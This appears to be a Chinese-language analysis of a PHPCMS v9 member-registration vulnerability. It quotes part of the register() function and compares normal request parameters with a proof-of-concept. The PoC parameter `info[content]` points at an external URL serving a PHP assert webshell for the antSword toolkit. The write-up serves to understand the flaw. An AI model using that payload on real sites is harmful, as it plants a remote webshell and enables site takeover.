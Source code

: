![](https://raw.githubusercontent.com/jerrychan807/imggg/master/006tKfTcgy1fi8x9qtnk3j31kw0jv42q.jpg)

# 漏洞分析：

通过复现过程可以看到漏洞URL为：  
`http://phpcms.localhost/index.php?m=member&c=index&a=register&siteid=1`

> 可以确定是member模块的问题，以前我分析过phpcms的程序，所以就不从index.php看了，我们直接去打开member模块的控制器文件如下：

`/Users/striker/www/phpcmsv9/phpcms/modules/member/index.php`

## index.php

动态调试跟踪了一下index.php 。  
好吧，晕了。。。

## member/index.php

### 正常请求

正常请求中info参数和poc中的参数好像有些不同

![](https://raw.githubusercontent.com/jerrychan807/imggg/master/006tKfTcgy1fi8zbde0cwj31kw0f0ago.jpg)

正常请求:`info[Birthday]`  
poc的：`info[content]=<img src=http://files.hackersb.cn/webshell/antSword-shells/php_assert.php#.jpg>`

看完最后，中括号里的是可以调用的函数

### register\(\)函数：

```
public function register() {
        $this->_session_start();
        //获取用户siteid
        $siteid = isset($_REQUEST['siteid']) && trim($_REQUEST['siteid']) ? intval($_REQUEST['siteid']) : 1;
        //定义站点id常量
        if (!defined('SITEID')) {
           define('SITEID', $siteid);
        }

        //加载用户模块配置
        $member_setting = getcache('member_setting');
        if(!$member_setting['allowregister']) {
            showmessage(L('deny_register'), 'index.php?m=member&c=index&a=login');
        }
        //加载短信模块配置
         $sms_setting_arr = getcache('sms','sms');
        $sms_setting = $sms_setting_arr[$siteid];        

        header("Cache-control: private");
        if(isset($_POST['dosubmit'])) { //如果点击了提交注册，进入注册流程
            if($member_setting['enablcodecheck']=='1'){//开启验证码
                if ((empty($_SESSION['connectid']) && $_SESSION['code'] != strtolower($_POST['code']) && $_POST['code']!==NULL) || empty($_SESSION['code'])) {
                    showmessage(L('code_error'));
                } else {
                    $_SESSION['code'] = '';
                }
            }
```

